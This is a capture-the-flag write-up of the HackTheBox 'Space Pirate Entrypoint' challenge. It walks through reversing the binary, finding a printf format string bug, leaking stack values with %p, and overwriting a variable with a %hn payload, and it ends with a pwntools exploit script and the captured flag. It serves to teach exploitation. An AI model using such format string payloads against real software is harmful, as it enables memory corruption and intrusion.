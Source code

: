 ```yaml
---
layout: post
title: Binary Exploitation&#58; HacktheBox/Space Pirate Entrypoint
---
```


## HacktheBox Space Pirate Entrypoint Write-up

To start, let's run the program. We are prompted for a choice between scanning our card and inserting a password. When we use the ```scan card``` option, we are asked for the card's serial number. Input leads to an Invalid ID message and the program exiting. The ```insert password``` option is similar, except is asks for a password instead of a serial.

Let's check the file type.
```
└─$ file sp_entrypoint
sp_entrypoint: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=9929f2d6b7a50a00cb151fce627175f6461c0b91, not stripped
```

We are dealing with a 64 bit ELF executable, dynamically linked, and not stripped. This is good news.

Now to check for securities on the binary.
```
└─$ checksec --file=sp_entrypoint
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   RW-RUNPATH   82 Symbols	  No	0		2		sp_entrypoint
```

Full relro, a canary, NX enable, and PIE. So no shellcode injection or overwriting the return address. Let's see what ghidra tells us.

### Reversing

The main function is fairly straight forward.
```c
undefined8 main(void)

{
  long lVar1;
  long in_FS_OFFSET;
  long local_48;
  long *local_40;
  char local_38 [40];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  banner();
  local_48 = 0xdeadbeef;
  local_40 = &local_48;
  printf(&DAT_001025e0);
  lVar1 = read_num();
  if (lVar1 != 1) {
    if (lVar1 == 2) {
      check_pass();
    }
    printf(&DAT_00102668,&DAT_0010259a);
                    /* WARNING: Subroutine does not return */
    exit(0x1b39);
  }
  printf("\n[!] Scanning card.. Something is wrong!\n\nInsert card\'s serial number: ");
  read(0,local_38,31);
  printf("\nYour card is: ");
  printf(local_38);
  if (local_48 == 0xdead1337) {
    open_door();
  }
  else {
    printf(&DAT_001026a0,&DAT_0010259a);
  }
  if (canary == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

So it looks like to get the flag, we need to access the ```open_door()``` function. To do this, we need the variable ```local_48``` to equal ```0xdead1337```. It is initialized at the beginning ```main``` to ```0xdeadbeef```. Now we need to find a way to do that.

The first thing I notice is a format string vulnerability on this line:
```c
printf(local_38);
```

Format string vulnerabilities happen when the proper arguments are not passed to a string processing function such as ```printf```. Normally, the first argument would be the *format string*, such as ```"Hello, my name is %s!\n"```, the following arguments passed to the function must correspond with the format specifiers in the format string, or else ```printf``` will use the data at where the argument *should* have been. A more thorough breakdown of format strings can be found [here](https://axcheron.github.io/exploit-101-format-strings/).

How does this help us write to memeory? By using the ```%n``` specifier. This specifier will write the number of bytes expressed as an integer to the corresponding argument. For instance:
```
printf("Hello, my name is %n!\n", &num);
```

In this case, ```num``` would hold the value ```18```. We can use this to overwrite the contents of ```local_48```.

### Pwn

To leverage this vulnerability, we need to find out how many stack addresses our target it away, to do this, we simply need to input a bunch of ```%p``` where our payload should go.
```
Insert card's serial number: %p %p %p %p %p %p %p %p %p

Your card is: 0x7ffdd9766a50 0x7f062b4508c0 (nil) 0xf (nil) 0xdeadbeef 0x7ffdd97690f0 0x7025207025207025 0x2520702520702520
E�U
```

We see that ```0xdeadbeef``` is 6 arguments away, and the pointer to ```deadbeef``` is 7 arguments away. Since argument 7 points to our target, we can use argument 7 to overwrite argument 6. Now we need to simply overwrite the lowest 2 byte orders of ```0xdeadbeef``` with ```0x1337``` which, expressed as an integer, is ```4919```. Let's craft our payload and test it. Note that the format specifier for a ```short``` is ```%hn```.
```
Insert card's serial number: %4919c%7$hn 

Your card is:                         





[+] Door opened, you can proceed with the passphrase: HTB{th3_g4t35_4r3_0p3n!}
```

Now to craft the exploit.
```python
#!/usr/bin/env python3

from pwn import *

payload = b"%4919c%7$hn"

p = remote("157.245.32.12", 31901)
p.recvuntil("> ")
p.sendline(b"1")
p.recvuntil("Insert card's serial number: ")
p.sendline(payload)

p.interactive()
```

Et Voila!
